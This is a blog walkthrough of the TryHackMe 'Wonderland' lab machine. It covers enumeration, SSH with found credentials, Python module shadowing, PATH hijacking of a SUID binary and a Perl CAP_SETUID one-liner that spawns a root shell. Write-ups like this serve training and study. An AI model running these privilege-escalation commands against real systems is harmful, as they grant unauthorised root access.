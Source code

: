 ```yaml
---
layout: post
title: thm-wonderland
description: TryHackMe Medium Machine
category:
tags:
date: 2025-07-19 15:58 +0100
---
```

# Wonderland

> Overall it was a fun box. Pretty basic enumeration and exploitation techniques we just have to keep up with the a bit long attack vector. Before diving into the walk-through here's a summary of some of the techniques we'll cover shortly:
1. The enumeration didn't have anything complicated: <mark style="color:blue;">basic nmap scan, few fuzzing</mark> and we find some <mark style="color:blue;">cleartext credentials</mark> that'll ssh us into the machine as a regular user. The user flag was in a very strange directory (as the comments stated as well)
2. To get to root, we'll be doing some <mark style="color:blue;">lateral movement</mark> as well. from the foothold as Alice we'll exploit a basic <mark style="color:blue;">Module Shadowing</mark> to gain access to rabbit.
3. From there, we'll find a binary with a <mark style="color:blue;">SUID bit</mark> that we'll use to gain access to hatter account through a <mark style="color:blue;">PATH Hijacking</mark>.
 4. Finally, for root, back to the basics after some manual inspection, linpeas.sh (after <mark style="color:blue;">File transferring</mark> it to the target) shows <mark style="color:blue;">CAP\_SETUID</mark> available for the Perl interpreter!
Pwned successfully!
{: .prompt-tip}

## Enumeration

```bash
sudo sh -c 'echo "<IP> wonderland.thm" >> /etc/hosts'
```

### Nmap

```bash
nmap wonderland.thm -sV -sC -Pn -T4 -oN def-scripts-scan -vv

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![Nmap Output](https://github.com/7ankalis/assets/blob/main/wonderland/wonderland-1.png)
Okay then let's follow the white rabbit. To fuzzing now. Normally at this point we like to leave a UDP scan to run in the background or a full ports TCP scan and proceed further in our enumeration because nmap only scans the first top 1000 ports. We could possibly miss something if we only check those ports. For this machine the scan lead to nothing so you should step over that part and think about it for the next machines :smile:.

### Fuzzing

#### Subdomains/Vhosts

The scan for subdomains/Vhosts lead to nothing for this box. So we move on. (For the command below, you should consider a filter of your own with ffuf because we'll get lots of irrelevant stuff)

```bash
ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm -c -H 'Host: FUZZ.wonderland.thm'
```

#### Directories

```bash
ffuf -w <wordlist.txt>:FUZZ -u http://wonderland.thm/FUZZ -c -v 
```

The command above will return the following directories:&#x20;



The `/img` directory was also clear to find when inspecting the home page.


Containing the following files:


Looking for fuzzing the other sub directories we find the following pattern:


Intuitively, checking the source code of every directory we find, we stumble upon what seems to be Clear-text Credentials of user Alice:


## Foothold/user flag - Alice

Since for now we didn't find any login portal, ssh is the only way we could possibly gain a foothold. Which was successful!


Okay root flag file in the home directory? Strange. How to deal with strange? Be even more strange:



## Lateral Movement

### 2nd User - Rabbit

```bash
find / -perm -4000 2>/dev/null
```


```bash
find / -perm -2000 2>/dev/null
```


Nothing in here.

At this point, we normally look for kernel exploit or a critical kernel vulnerability (Which is also done right after gaining foothold at the machine.) which also lead to nothing in this machine.

The command below tells us what binaries we can run as sudoers (if misconfigured):

```bash
$sudo -l
```


Okay, if we find a way to exploit the `walrus*.py` file and combine it with sudo command as `rabbit` user, we could get a shell as `rabbit`. Let's enumerate further.

Running the python script and checking the source code, we found nothing BUT thee first line:


This will lead to <mark style="color:red;">module shadowing</mark>, which is exploiting the way python imports modules, tricking the interpreter to import a local version of the random module. This is due to the random module is a `.py` file not a precompiled binary(built-in). Here's some resources to dive more into that vulnerability:



```bash
echo "import os;os.system('/bin/sh')" > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```


### 3rd User - Hatter

Intuitively checking the rabbit's home directory:


Alright, no `strings` command, no `binwalk`, no `ltrace`, no `strace`. we gotta transfer this file to our local machine.

#### File Transfer

This can be done using many methods. We could use `scp` tool which is based on ssh, simple base64 encoding, or using a `python HTTP server`. BUT, in our case, the most efficient and quick way is setting up a `python HTTP server` and download the file with curl/wget. This is because we have access to the python interpreter and in order to use scp, we will need to add an ssh key for user rabbit.

Here's how we're going to do it:

```bash
compromized-host$cd /home/rabbit
compromized-host$python3 -m http.server
```

```bash
attacking-machine$wget http://target-ip:8000/teaParty
```


Okay, no need to debug or anything, we got something interesting:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

Here's why this line of code might be vulnerable: the one-liner  uses non relative path for the date command. So if thee system relies of the PATH variable to execute the command, we might alter  the PATH variable and point it to a malicious binary of our choice, and since teaParty has SUID bit set, we can move forward to the next user. Here we go:

```bash
compromized-host$echo '#! /bin/bash\n/bin/sh' > /tmp/date
# You can choose the home directory not the /tmp.  
compromized-host$
compromized-host$chmod +x /tmp/date
compromized-host$export PATH=/tmp:$PATH
compromized-host$./teaParty
```


Now with the cleartext credentials on the home directory we ssh into the server with hatter user.

## Privilege Escalation

After getting the [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) script on the machine using one of the methods we [mentioned](wonderland.md#file-transfer). We get interesting vulnerable stuff:


> Traditionally, a Linux process is either privileged (running as root) or unprivileged. Privileged processes are not subject to kernel permission checks, and thus have full power over a system. A capability is a distinct and independent privilege that can be used by a process to bypass certain permission checks. Capabilities were first introduced in Linux 2.2, and several more were added in later versions. They are usually set on executable files and are automatically granted to the process when a file with a capability is executed. Capabilities essentially divide the power of the root user into separate privileges, which improves security by limiting the access an attacker would gain by exploiting or abusing a service

So, i simple perl script that sets the hatter user ID to 0 will bypass all the privileges checking since the process will have that specific capability. Here's a script i found on [GTFObins](https://gtfobins.github.io/gtfobins/perl/).

```bash
/usr/bin/perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
